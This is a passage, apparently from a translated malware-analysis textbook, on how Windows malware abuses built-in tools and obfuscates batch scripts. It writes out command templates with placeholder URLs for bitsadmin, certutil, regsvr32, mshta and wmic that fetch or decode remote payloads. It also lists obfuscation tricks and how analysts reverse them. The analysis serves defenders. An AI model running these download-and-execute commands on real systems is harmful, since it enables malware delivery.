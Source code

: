 从历史上看，没有提供标准工具来发送 HTTP 请求（现在 `curl` 已在现代版本的 Windows 上可用）或压缩文件。从攻击者的角度来看，这意味着为了实现更多或更基本的恶意软件功能，例如下载、解密和执行附加有效载荷，他们必须编写额外的代码。直到后来，像 `bitsadmin` 和 `certutil` 这样的系统工具才被攻击者广泛滥用，用于下载和解码有效载荷。以下是它们被使用的一些示例：

+   `bitsadmin /transfer <any_name> /download /priority normal <url> <dest>`

+   `certutil -urlcache -split -f <url> <dest>`

+   `certutil -decode <src> <dest>`

此外，还有一些较少为人知的方式，Windows 恶意软件可以通过使用标准控制台命令来访问远程有效载荷，具体如下：

+   `regsvr32 /s /n /u /i:<url_to_sct> scrobj.dll`

+   `mshta <url_to_hta>`

+   `wmic os get /FORMAT:<url_to_xsl>`

最后，一些标准工具如 `wmic` 原生支持远程机器，因此如果有可用的凭证，就可以在另一台受害者的机器上执行某些命令，而无需额外的工具。

更多与标准工具相关的非标准安全应用可以在 **LOLBAS** 项目页面找到：[`lolbas-project.github.io/`](https://lolbas-project.github.io/)。

批处理文件中最常见的混淆模式如下：

+   通过从长块中提取子字符串来构建命令。

+   使用过多的变量替换；这里，许多变量要么未定义，要么在使用的地方远离定义的位置。

+   使用随机大小写字母的长变量名。

+   添加多个无意义的符号，如成对的双引号或插入符号转义字符 (`^`)。以下截图展示了一个示例：

![图 10.1 – 使用转义符号进行批处理脚本混淆的示例](img/Figure_10.1_B18500.jpg)

图 10.1 – 使用转义符号进行批处理脚本混淆的示例

+   通常情况下，大小写字母混合使用（Windows 控制台不区分大小写，除非大小写有区别；例如在 base64 编码中）。以下是一个示例：

![图 10.2 – 使用不存在的变量进行批处理脚本混淆的示例](img/Figure_10.2_B18500.jpg)

图 10.2 – 使用不存在的变量进行批处理脚本混淆的示例

第一和第二种情况可以通过仅使用 `echo` 命令打印这些操作的结果来处理。第三和第四种情况可以通过基本的替换操作轻松处理，而第五种情况则只需将所有内容转换为小写，除了像 base64 编码的文本等内容。

## Bash
